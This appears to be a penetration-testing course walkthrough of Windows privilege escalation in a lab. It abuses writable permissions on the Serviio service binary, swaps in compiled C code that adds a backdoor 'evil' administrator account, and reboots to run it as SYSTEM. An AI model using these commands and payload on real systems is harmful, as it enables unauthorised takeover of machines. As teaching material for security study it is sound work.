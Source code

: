 ```yaml
---
description: >-
  Insecure File Permissions (Windows)
title: Insecure File Permissions (Windows)             # Add title here
date: 2022-11-11 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Windows - Insecure File Permissions]                     # Change Templates to Writeup
tags: [insecure file permissions, windows privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

A common way to elevate privileges on a Windows system is to exploit insecure file permissions on services that run as _nt authority\\system_.

For example, consider a scenario in which a software developer creates a program that runs as a Windows service. During the installation, the developer does not secure the permissions of the program, allowing full read and write access to all members of the _Everyone_ group. As a result, a lower-privileged user could replace the program with a malicious one. When the service is restarted or the machine is rebooted, the malicious file will be executed with SYSTEM privileges.

This type of vulnerability exists on our Windows client. Let's validate the vulnerability and exploit it.

In one of the previous sections, we showed how to list running services with _tasklist_. Alternatively, we could use the PowerShell Get-WmiObject cmdlet with the win32_service WMI class. In this example, we will pipe the output to Select-Object to display the fields we are interested in and use Where-Object to display running services ({$_.State -like 'Running'}):

```powershell
PS C:\Users\student> Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

Name                  State   PathName
----                  -----   --------
AudioEndpointBuilder  Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRes
Audiosrv              Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRe
...
Power                 Running C:\Windows\system32\svchost.exe -k DcomLaunch
ProfSvc               Running C:\Windows\system32\svchost.exe -k netsvcs
RpcEptMapper          Running C:\Windows\system32\svchost.exe -k RPCSS
RpcSs                 Running C:\Windows\system32\svchost.exe -k rpcss
SamSs                 Running C:\Windows\system32\lsass.exe
Schedule              Running C:\Windows\system32\svchost.exe -k netsvcs
SENS                  Running C:\Windows\system32\svchost.exe -k netsvcs
Serviio               Running C:\Program Files\Serviio\bin\ServiioService.exe
ShellHWDetection      Running C:\Windows\System32\svchost.exe -k netsvcs
...
```

Based on this output, the Serviio service stands out as it is installed in the Program Files directory. This means the service is user-installed and the software developer is in charge of the directory structure as well as permissions of the software. These circumstances make it more prone to this type of vulnerability.

As a next step, we'll enumerate the permissions on the target service with the _icacls_ Windows utility. This utility will output the service's Security Identifiers (or SIDs) followed by a permission mask, which are defined in the icacls documentation. The most relevant masks and permissions are listed below:

|MASK|PERMISSIONS|
|------|-----------------|
|F| Full Access |
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

We can run icacls, passing the full service name as an argument. The command output will enumerate the associated permissions:

```powershell
C:\Users\student> icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
C:\Program Files\Serviio\bin\ServiioService.exe BUILTIN\Users:(I)(F)
                                                NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

As suspected, the permissions associated with the ServiioService.exe executable are quite interesting. Specifically, it appears that any user (BUILTIN\\Users) on the system has full read and write access to it. This is a serious vulnerability.

In order to exploit this type of vulnerability, we can replace ServiioService.exe with our own malicious binary and then trigger it by restarting the service or rebooting the machine.

We'll demonstrate this attack with an example. The following C code will create a user named "evil" and add that user to the local Administrators group using the _system_ function. The compiled version of this code will serve as our malicious binary:

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user evil Ev!lpass /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```

Next, we'll cross-compile the code on our Kali machine with i686-w64-mingw32-gcc, using -o to specify the name of the compiled executable:

```bash
kali@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

We can transfer it to our target and replace the original ServiioService.exe binary with our malicious copy:

```powershell
C:\Users\student> move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
        1 file(s) moved.

C:\Users\student> move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
        1 file(s) moved.

C:\Users\student> dir "C:\Program Files\Serviio\bin\"
 Volume in drive C has no label.
 Volume Serial Number is 56B9-BB74

 Directory of C:\Program Files\Serviio\bin

01/26/2018  07:21 AM    <DIR>          .
01/26/2018  07:21 AM    <DIR>          ..
12/04/2016  08:30 PM               867 serviio.bat
01/26/2018  07:19 AM            48,373 ServiioService.exe
12/04/2016  08:30 PM                10 ServiioService.exe.vmoptions
12/04/2016  08:30 PM           413,696 ServiioService_original.exe
               4 File(s)        462,946 bytes
               2 Dir(s)   3,826,667,520 bytes free
```

In order to execute the binary, we can attempt to restart the service.

```powershell
C:\Users\student> net stop Serviio
System error 5 has occurred.

Access is denied.
```

Unfortunately, it seems that we do not have enough privileges to stop the Serviio service. This is expected as most services are managed by administrative users.

Since we do not have permission to manually restart the service, we must consider another approach. If the service is set to "Automatic", we may be able to restart the service by rebooting the machine. Let's check the start options of the Serviio service with the help of the Windows Management Instrumentation Command-line:

```powershell
C:\Users\student>wmic service where caption="Serviio" get name, caption, state, startmode
Caption  Name     StartMode  State
Serviio  Serviio  Auto       Running
```

This service will automatically start after a reboot. Now, let's use the whoami command to determine if our current user has the rights to restart the system:

```powershell
C:\Users\student>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

The listing above shows that our user has been granted shutdown privileges (_SeShutdownPrivilege_) (among others) and therefore we should be able to initiate a system shutdown or reboot. Note that the _Disabled_ state only indicates if the privilege is currently enabled for the running process. In our case, it means that whoami has not requested, and hence is not currently using, the _SeShutdownPrivilege_ privilege.

If the _SeShutdownPrivilege_ was not present, we would have to wait for the victim to manually start the service, which would be much less convenient for us.

Let's go ahead and reboot (/r) in zero seconds (/t 0):

```powershell
C:\Users\student\Desktop> shutdown /r /t 0 
```

Now that the reboot is complete, we should be able to log in to the target machine using the username "evil" with a password of "Ev!lpass". After that, we can confirm that the evil user is part of the local Administrators group with the net localgroup command.

```powershell
C:\Users\evil> net localgroup Administrators
Alias name     Administrators
Comment   Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
corp\Domain Admins
corp\offsec
evil
The command completed successfully.
```